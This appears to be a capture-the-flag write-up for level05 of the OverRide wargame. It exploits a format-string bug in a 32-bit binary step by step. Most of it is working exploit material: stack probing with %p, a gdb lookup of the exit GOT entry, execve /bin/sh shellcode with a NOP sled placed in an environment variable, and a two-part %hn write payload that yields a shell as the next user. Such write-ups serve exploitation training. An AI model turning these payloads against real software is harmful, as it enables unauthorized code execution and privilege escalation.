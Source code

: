 # Level 5

Ah `printf`, don't we love it?

```shell
level05@OverRide:~$ ./level05 
%p
0x64
```
We have another 32bit program with vulnerable format strings on our hands.

Let's find where we control the buffer
```shell
level05@OverRide:~$ ./level05 < <(python -c 'print "BBBB" + "%p|"*10') 
bbbb0x64|0xf7fcfac0|0xf7ec3add|0xffffd6ef|0xffffd6ee|(nil)|0xffffffff|0xffffd774|0xf7fdb000|0x62626262|
```
Oh yeah, our uppercase characters get converted to lowercase, but we can see it's the 10th arg
```shell
level05@OverRide:~$ ./level05 < <(python -c 'print "0000%10$p"')
00000x30303030
```

Ok Let's find the value of `exit` to replace it in the GOT
```shell
level05@OverRide:~$ gdb ./level05                                    
(gdb) disas exit                  
Dump of assembler code for function exit@plt:                        
   0x08048370 <+0>:     jmp    *0x80497e0                            
   0x08048376 <+6>:     push   $0x18                                 
   0x0804837b <+11>:    jmp    0x8048330                             
End of assembler dump.            
```
`0x80497e0` is `exit` in the GOT

But this time we don't just have a function to call, what are we gonna do!
```shell
export PWN=$(python -c 'print "\x90"*500 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```
Of course! Let's now get the address of our shellcode with some safety margin for good measure.
```shell
level05@OverRide:~$ gdb ./level05 
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) r
Starting program: /home/users/level05/level05 

Breakpoint 1, 0x08048449 in main ()
(gdb) p (char*)getenv("PWN")
$1 = 0xffffdd10 "\220\220\220\220\220\220\220\220\220\220\220\220...
```
Let's add a good `0x64` just to be safe -> `0xFFFFDD74`
GOT exit -> `0x80497e0`
```shell
level05@OverRide:~$ ./level05   < <(python -c 'print "\xe0\x97\x04\x08" + "%{}$p".format(str(0xffffdd74)) + "%10$n"')
```
It doesn't work this time, the reason is that we just can't use such a big number of characters for padding. We'll have to split our writes between the higher and lower bytes, and use the modifier `h` to only write 2 bytes, like this:
```shell
level05@OverRide:~$ ./level05 < <(echo "AAAABBBB%10\$p%11\$p")
aaaabbbbb0x616161610x62626262
```

Which translates to:
`(GOT ADDR LO BYTES ADDR | GOT ADDR HI BYTES ADDR ) ` +
`(( % PADDING | LO BYTES OF PWN ADDR - 8 | THROWAWAY CONV) | ( % SRC | 10TH VALUE IN STACK | $hn WRITE 2 BYTES))` +
`(( % PADDING | HI BYTES OF PWN ADDR - LO BYTES | THROAWAY CONV) | (% SRC | 11TH VAL IN STACK | $hn WRITE 2 BYTES))`

Which should give us before conversions
`(0x80497E0 + 0x80497E2) + ( %(0xDD74-8)$x + %10$hn ) + ( %(0xFFFF-DD74)$x  + %11$hn)`

in python:
```python
"\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%{}c".format(0xdd74-8) + "%10$hn" + "%{}c".format(0xffff-0xdd74) + "%11$hn"
```

Let's try it
```shell
level05@OverRide:~$ (python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%{}c".format(0xdd74-8) + "%10$hn" + "%{}c".format(0xffff-0xdd74) + "%11$hn"' ; cat ) | ./level05 

[...]
whoami
level06
```

What a handful!
